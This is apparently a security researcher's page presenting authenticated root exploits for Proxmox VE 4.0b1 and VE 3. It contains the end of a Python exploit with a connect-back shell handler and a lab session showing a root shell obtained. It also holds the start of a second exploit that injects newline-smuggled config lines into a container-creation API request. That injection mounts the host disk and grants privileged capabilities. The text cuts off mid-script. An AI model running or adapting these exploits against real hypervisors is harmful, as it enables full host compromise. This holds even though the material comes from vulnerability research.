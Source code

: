         parser.add_argument("--template", required=False, default="local:vztmpl/debian-7.0-standard_7.0-2_i386.tar.gz",
                            help="An existing template in the hypervisor "
                                 "(default : local:vztmpl/debian-7.0-standard_7.0-2_i386.tar.gz)")

        parser.add_argument("--realm", required=False, default="pam", choices=["pve", "pam"])

        parser.add_argument("--hostname", required=True, help="The target hostname")

        args = parser.parse_args()

        handlerthr = Thread(target=handler, args=(args.localport,))
        handlerthr.start()

        exploitthr = Thread(target=exploit, args=(args.target, args.username, args.password, args.vmid, args.template, args.realm, (args.localhost, args.localport), args.hostname))
        exploitthr.start()

        handlerthr.join()

Shell output :

    nightlydev@nworkstation ~/Lab/Proxmox_Exploits $ python remoteroot.py --target 10.25.0.101:8006 --username nicolas --password pveuser --localhost 10.25.0.10 --localport 9999 --vmid 456 --realm pve --hostname pve4
    [~] Proxmox VE 4.0b1 Authenticated Root Exploit - Nicolas Chatelain
    [~] Starting handler on port 9999
    [~] Obtaining authorization key...
    [+] Authentication success.
    [+] Container Created... (Sleeping 20 seconds)
    [+] Exploit should be working...
    [+] Connection from 10.25.0.101
    [+] Pop the shell !
    whoami
    root
    id
    uid=0(root) gid=0(root) groups=0(root)

The following exploit works for Proxmox VE 3. This proof of concept mount the host /dev/dm-0 on the container and add multiples capabilities on the container.


    #!/usr/bin/env python

    import requests
    import socket
    import telnetlib
    from threading import Thread
    import argparse

    def exploit(target, username, password, vmid, template, realm, hostname):
        payload = "xyz\"\nDEVNODES=\"dm-0:r \"\nCAPABILITIES=\"mknod:on, sys_chroot:on, sys_rawio: on, net_admin:on, dac_override:on\"\n#"
        print "[~] Obtaining authorization key..."
        apireq = requests.post("https://%s/api2/extjs/access/ticket" % target,
                               verify=False,
                               data={"username": username,
                                     "password": password,
                                     "realm": realm})
        response = apireq.json()
        if "success" in response and response["success"]:
            print "[+] Authentication success."
            ticket = response["data"]["ticket"]
            csrfticket = response["data"]["CSRFPreventionToken"]
            createvm = requests.post("https://%s/api2/extjs/nodes/%s/openvz" % (target, hostname),
                                     verify=False,
                                     headers={"CSRFPreventionToken": csrfticket},
                                     cookies={"PVEAuthCookie": ticket},
                                     data={"vmid": vmid,
